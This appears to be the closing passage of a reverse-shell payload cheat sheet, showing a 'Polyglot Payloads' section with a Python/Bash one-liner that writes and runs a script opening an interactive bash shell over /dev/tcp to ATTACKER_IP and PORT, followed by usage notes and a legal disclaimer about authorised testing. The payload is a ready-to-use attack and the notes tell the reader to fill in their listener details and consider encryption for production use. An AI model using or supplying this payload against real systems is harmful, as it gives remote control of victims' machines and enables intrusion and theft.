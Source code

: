 ### Polyglot Payloads
```python
# Python/Bash polyglot
echo 'import os; os.system("""bash -c \'bash -i >& /dev/tcp/ATTACKER_IP/PORT 0>&1\'""")' > shell.py && python shell.py
```

---

## Important Notes

1. Replace `ATTACKER_IP` and `PORT` with your listener details
2. Some payloads may require specific dependencies or environments
3. Always test payloads in controlled environments
4. Many modern systems have protections against reverse shells
5. Consider using encryption for production use (SSL/TLS)

**Legal Disclaimer**: Only use these techniques on systems you own or have explicit permission to test. Unauthorized access to computer systems is illegal.